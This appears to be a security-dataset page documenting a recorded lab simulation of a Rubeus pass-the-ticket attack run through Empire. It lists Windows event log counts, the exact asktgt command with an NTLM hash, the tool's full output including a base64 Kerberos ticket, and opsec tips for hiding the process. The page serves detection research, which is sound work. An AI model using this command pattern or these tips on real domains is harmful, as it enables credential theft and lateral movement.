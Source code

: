 
# Empire Rubeus PTT

The asktgt action will build raw AS-REQ (TGT request) traffic for the specified user and encryption key (/rc4, /aes128, /aes256, or /des). A /password flag can also be used instead of a hash - in this case /enctype:X will default to RC4 for the exchange, with des|aes128|aes256 as options. If no /domain is specified, the computer's current domain is extracted, and if no /dc is specified the same is done for the system's current domain controller. If authentication is successful, the resulting AS-REP is parsed and the KRB-CRED (a .kirbi, which includes the user's TGT) is output as a base64 blob. The /ptt flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session. The /luid:0xA.. flag will apply the ticket to the specified logon session ID (elevation needed) instead of the current logon session.

Note that no elevated privileges are needed on the host to request TGTs or apply them to the current logon session, just the correct hash for the target user. Also, another opsec note: only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the /ptt option. A workaround is to use the /createnetonly:C:\X.exe parameter (which hides the process by default unless the /show flag is specified), or request the ticket and apply it to another logon session with ptt /luid:0xA..

## Technique(s) ID

T1097

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## dataset

[empire_rubeus_asktgt_ptt.tar.gz](./empire_rubeus_asktgt_ptt.tar.gz)

## Nnetwork Environment

Shire

## Time Taken

2019-03-19145126

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             334 |
| Security                                 | Filtering Platform Connection                          |             301 |
| Security                                 | Token Right Adjusted Events                            |             180 |
| Security                                 | User Account Management                                |              51 |
| Security                                 | Detailed File Share                                    |              10 |
| Security                                 | Group Membership                                       |               9 |
| Security                                 | Logoff                                                 |               9 |
| Security                                 | Logon                                                  |               9 |
| Security                                 | Special Logon                                          |               9 |
| Security                                 | Process Termination                                    |               7 |
| Security                                 | Sensitive Privilege Use                                |               6 |
| Security                                 | File Share                                             |               1 |
| Security                                 | Kerberos Authentication Service                        |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Process Creation                                       |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             436 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             104 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |              90 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              83 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              21 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              20 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              14 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               2 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             279 |

## Empire Activity

```
Rubeus.exe asktgt /user:Mmidge /rc4:b415baa073a14f81f8c89a2a384f4a68 /ptt
```

```
[*] Tasked 2MES3XN6 to run TASK_SHELL
[*] Agent 2MES3XN6 tasked with task ID 21
(Empire: 2MES3XN6) > ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.2 

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b415baa073a14f81f8c89a2a384f4a68
[*] Using domain controller: HFDC01.shire.com (172.18.39.5)
[*] Building AS-REQ (w/ preauth) for: 'shire.com\Mmidge'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5DCCBOCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+KADAgEFoQsbCVNISVJFLkNPTaIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJc2hpcmUuY29to4IDwjCCA76gAwIBEqEDAgECooIDsASCA6xLDFM5i+GcjKhK
      ix5DoHwWPlrrbj4nPOcTyK/umBEnffx9hz7tu3acyQU127mvFR7u0JO3h6U6FPrKPz2iJ6v3sx5AYGM6
      Imf0J2NBWb3+AU0WmuOBCa3k/BL+jl49isw6CuWHKrqyOk7SaoRORdd9G0hDv5zpHeF5Nzfz4dQ3GqmO
      W2ORZuTQR868MYEFYnCIjY+wNf/ve9Cie6isW170KSEMPrWdQbeSFMu6KtJaCNLTc2800JTO3ObrOZUW
      zylDRelTgBY4FCTyBUaseF45EWwFyiMeeABhgUZ1iFPGezsplcczGpaYB19bLz2r89j5k+3IJGzyOcA9
      hECNycNVzycIcU4SUtKtxqiRLoPqfPjHq8codY1npbUsovsW6wEi25lgFxzlVdxF2Bek368qBU1B1s9g
      CL06GUSjlfjPj9Heb7exTr9r+4j4JL+qVZaqlBtAQ4J38CKNJ9RdZME/9wRg6I/E15P8NNUAr7IOyF6S
      cYlNQ07uRFRKBgi30JSdBC7CSe2x546Jrrd17YQtDOHbw1WFP7HvYgdT+Miuit/WoRttWmNTEv4vj6oD
      +AuTrQKxnhbebef6MXXsR4ouDrBIlIw6r5T476ezkbNJeQwB6oryMUOsI3wu3DDFdRD7ZBY869fSC7Xe
      1+6vRO4Vu/mUXYzw9xkJ0C7X+c4ljJetCZ/YV3zoc6Tw5WLjtfFJ0HuFdIxxOEj8xK0BoyGwnDz3fOGC
      mEjH47U/w0EsUdBmnsZzRTujrTwGFbm/oCjOV9Dgae/aVLe0A+TSrWH2H8aKFmGeczrtTgEkGZDJyudm
      bVdeymTc0bv8AT8s0moOKc64dhtib10LPnakbWDOSQOydi/abwuIaAB6+21F3cmZ9lq5/7e1LyYKWnxd
      ATHPz+M9kWJi+xeqombWvozrjM2uIozFik7nY0rMdrbd/ItlML7bCuOuybksFe/1mmwscWvCoTOePzNS
      NU2znzc8vDOSfaE5WLI9c1hJVjkarx9iL+kSM7N3yQEXkuwQuTY5Yswx1bht28sKjsU+Q0dZxdhNeErd
      lJekqyf5NAKI2fmawmWBmzcXm7NDRATgDf3N9tpiTOW0x0Blv2F+SWXparZ06E5wdqNsV4l2Yf9x6yOp
      exrQvjCznKbpbh0u1rlhm0Ya8yieDqbCKEIzxIk1IjYwx/4OQ6fdGAm6SjF+rH/Pnyh/o5X4DxLSeGEy
      LPDjuDBHuReqj4UP//bhH7r5UptZuQ+cZ5liu58eo4HLMIHIoAMCAQCigcAEgb19gbowgbeggbQwgbEw
      ga6gGzAZoAMCARehEgQQfj5vhePBJY0eMPFDHvkIxKELGwlTSElSRS5DT02iEzARoAMCAQGhCjAIGwZN
      bWlkZ2WjBwMFAEDhAAClERgPMjAxOTAzMTkxODU1NDlaphEYDzIwMTkwMzIwMDQ1NTQ5WqcRGA8yMDE5
      MDMyNjE4NTU0OVqoCxsJU0hJUkUuQ09NqR4wHKADAgECoRUwExsGa3JidGd0GwlzaGlyZS5jb20=

[*] Action: Import Ticket
[+] Ticket successfully imported!

[*] Action: Describe Ticket

  UserName              :  Mmidge
  UserRealm             :  SHIRE.COM
  ServiceName           :  krbtgt/shire.com
  ServiceRealm          :  SHIRE.COM
  StartTime             :  3/19/2019 1:55:49 PM
  EndTime               :  3/19/2019 11:55:49 PM
  RenewTill             :  3/26/2019 1:55:49 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  fj5vhePBJY0eMPFDHvkIxA==


..Command execution completed.

(Empire: 2MES3XN6) > 
```